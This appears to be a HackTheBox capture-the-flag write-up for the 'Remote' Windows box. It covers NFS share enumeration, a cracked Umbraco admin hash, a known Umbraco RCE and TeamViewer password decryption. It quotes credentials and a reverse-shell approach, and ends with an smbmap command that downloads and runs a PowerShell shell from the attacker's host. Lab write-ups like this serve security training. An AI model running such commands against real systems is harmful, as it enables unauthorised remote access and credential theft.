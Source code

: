 ```yaml
---
layout: single
title: "Remote Write-Up: HackTheBox"
excerpt: "Remote was a Windows-based, easy level challenge from mrb3n on HackTheBox that had unexpected privilege escalation. An open NFS share allowed initial enumeration"
classes: wide
categories: [hackthebox]
date: 2020-09-05
tags: [hackthebox, hacking, penetration testing, write-ups, CVE, windows]
header:
  teaser: \assets\images\htb\remote\banner-remote.png
  teaser_home_page: true
toc: true
toc_label: "Table of Contents"
toc_icon: "book-dead"  # corresponding Font Awesome icon name (without fa prefix)
# toc_sticky: true
---
```

![](\assets\images\htb\remote\banner-remote.png)
## TL;DR
Remote was a Windows-based, easy level challenge from mrb3n on HackTheBox that had a cool privilege escalation. The initial Nmap scan showed multiple interesting ports - FTP with anonymous login, web server on port 80, SMB on 445 and a open NFS share. I started by connecting to FTP via the anonymous login, but it showed nothing interesting. Next, a quick enumeration of all available data on the http service led to an Umbraco login. I then connected the open NFS share on port 2049 and begun some real enumeration which allowed an extracted Administrator hash to the Umbraco application. Logging into Umbraco, I was able to exploit the application with a known CVE to obtain a shell as `iss apppool` and capture the User flag. After some system enumeration I discovered TeamViewer ver. 7.0.43148 installed which uses a shared AES key for all customer installations and published under CVE-2019-18988. This allowed a password to be decrypted that just so happened to a reused Administrator user password.

## Nmap Port Scan
`nmap -sCV -Pn -n -p- -T4 -oN nmap/full-remote 10.10.10.180`
```
Nmap scan report for 10.10.10.180         
Host is up (0.021s latency).              
Not shown: 65519 closed ports         
PORT      STATE SERVICE       VERSION 
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:                              
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 56s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-04-07T20:39:53
|_  start_date: N/A
```

## Web Enumeration

Initially looking at the web page we can see a link to Intranet. 
![](\assets\images\htb\remote\acme-page.png)

Following with clicking the Intranet link, we then see a link to Login which brings us to this Umbraco application. I attempted basic credentials and basic authentication assessment, but had no luck gaining access. 
![](\assets\images\htb\remote\umbraco-login.png)

## NFS Enumeration

The Network File System (NFS) is an interesting find in the port scan. Taking a closer look, we see a mountable share `site_backups`.
![](\assets\images\htb\remote\showmount.png)

`mount -t nfs 10.10.10.180:/site_backups nfs/`
![](\assets\images\htb\remote\site_backups.png)

After some enumeration, I located an interesting hash.
![](\assets\images\htb\remote\umbraco-sdf-hash.png)

Cracking the hash allows us to login to the Umbraco web application with Admin/Administrator.
`b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese`
![](\assets\images\htb\remote\umbraco-logged-in.png)

Umbraco version 7.12.4 was found in the "Help Area" which lines up with an exploit found in searchsploit.
![](\assets\images\htb\remote\searchsploit.png)

I used some GoogleFu and found another exploit PoC that I liked better here: https://github.com/noraj/Umbraco-RCE

![](\assets\images\htb\remote\poc-command-exec.png)

I served a modified Nishang Reverse-Tcp PowerShell script to return a shell:
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
![](\assets\images\htb\remote\nishang-exec.png)

![](\assets\images\htb\remote\listener.png)

User.txt was found in C:\Users\Public
![](\assets\images\htb\remote\remote-user-flag.png)

Interesting, TeamViewer…
![](\assets\images\htb\remote\get-process-remote.png)

After a bit of enumeration and research into known Teamviewer vulnerabilities, I located a blog post which describes that the password can be extracted and has the potential to be reused as other users. Looked promising. I located the necessary hashes in the below registry entry.

```
PS C:\windows\system32\inetsrv> reg query HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7

HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
    StartMenuGroup    REG_SZ    TeamViewer 7
    InstallationDate    REG_SZ    2020-02-20
    InstallationDirectory    REG_SZ    C:\Program Files (x86)\TeamViewer\Version7
    Always_Online    REG_DWORD    0x1
    Security_ActivateDirectIn    REG_DWORD    0x0
    Version    REG_SZ    7.0.43148
    ClientIC    REG_DWORD    0x11f25831
    PK    REG_BINARY
[TRUNCATED OUTPUT]    
    LastMACUsed    REG_MULTI_SZ    \0005056B984A2
    MIDInitiativeGUID    REG_SZ    {514ed376-a4ee-4507-a28b-484604ed0ba0}
    MIDVersion    REG_DWORD    0x1
    ClientID    REG_DWORD    0x6972e4aa
    CUse    REG_DWORD    0x1
    LastUpdateCheck    REG_DWORD    0x5e8d3439
    UsageEnvironmentBackup    REG_DWORD    0x1
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
    MultiPwdMgmtIDs    REG_MULTI_SZ    admin
    MultiPwdMgmtPWDs    REG_MULTI_SZ    357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
    Security_PasswordStrength    REG_DWORD    0x3
```
![](\assets\images\htb\remote\decryption.png)

[Decryption script and writeup.](https://whynotsecurity.com/blog/teamviewer/){:target="_blank"}

I reused my original Nishang shell script and SMBMap to escalate. 

```
smbmap -u administrator -p '!R3m0te!' -H 10.10.10.180 -x "powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.36/shell.ps1')"
```

Pop!
![](\assets\images\htb\remote\root.png)